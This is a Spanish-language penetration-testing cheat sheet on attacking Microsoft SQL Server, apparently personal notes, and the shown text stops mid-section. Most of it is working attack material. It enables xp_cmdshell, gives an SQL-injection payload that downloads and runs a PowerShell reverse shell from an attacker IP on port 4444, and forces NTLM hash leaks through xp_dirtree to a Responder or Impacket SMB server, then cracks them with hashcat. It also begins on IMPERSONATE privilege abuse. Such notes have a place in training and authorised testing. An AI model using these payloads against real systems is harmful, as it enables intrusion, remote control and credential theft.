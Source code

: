 ### Obtener Datos de una Tabla

- MySQL
    ```sql
    SELECT * FROM <nombre_tabla>;
    ```
- MSSQL
    ```sql
    SELECT * FROM <nombre_tabla>
    GO
    ```
## Ataques a Bases de Datos
No se enumeran algunas funcionalidades, como `xp_regwrite` que se podrían utilizar para elevar privilegios
### Ejecución de Comandos (MSSQL)
Habilitar y usar `xp_cmdshell` :
```sql
EXECUTE sp_configure 'show advanced options', 1;
GO
RECONFIGURE;
GO
EXECUTE sp_configure 'xp_cmdshell', 1;
GO
RECONFIGURE;
GO
EXECUTE xp_cmdshell 'whoami';
GO
```
Ejemplo de ejecución con `invoke-conpty` dentro de una sqli
```
';EXECUTE xp_cmdshell 'powershell -ep bypass -nop -c IEX (New-Object Net.WebClient).DownloadString(''http://192.168.45.182:8000/Invoke-ConPtyShell.ps1'');Invoke-ConPtyShell 192.168.45.182 4444;';--
```


### Captura de Hashes (MSSQL)
Usando procedimientos almacenados `xp_dirtree` o `xp_subdirs` para enviar una solicitud SMB a un servidor malicioso:

1. Debemos iniciar un servidor SMB:
    ```bash
    sudo responder -I eth0
    ```
    O con Impacket:
    ```bash
    sudo impacket-smbserver share ./ -smb2support
    ```
2. Ejecuta en MSSQL:
    ```mssql
    EXEC xp_dirtree '\\10.10.10.1\share\';
    GO
    ```
 3. Capturamos hash `NetNTLMv2` y hacemos fuerza bruta con hashcat -`m 5600`   
### Suplantación de Usuarios (MSSQL)
El servidor SQL tiene unos servicios especiales, `IMPERSONATE`,  que permite ejecutar al usuario acciones con los permisos de otro usuario
1. Comprobar si nuestro usuario tiene permisos de administrador:
	```sql
	SELECT SYSTEM_USER
	SELECT IS_SRVROLEMEMBER('sysadmin')
	go
	```